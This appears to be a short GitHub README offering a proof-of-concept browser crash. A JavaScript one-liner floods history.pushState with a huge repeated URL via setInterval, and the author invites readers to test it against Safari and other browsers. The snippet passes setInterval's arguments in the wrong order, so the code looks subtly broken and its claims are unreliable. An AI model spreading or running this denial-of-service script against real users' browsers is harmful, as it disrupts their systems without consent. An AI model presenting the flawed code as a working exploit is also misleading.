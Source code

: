 # safari_crash_poc
This is a POC of my bug that exploits "setInterval" and "history.pushState" to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```javascript
setInterval(350,function f() {history.pushState(0,0,location+"af6.github.io/crash/".repeat(100000));});
```
# credits
There are none. Yet. 
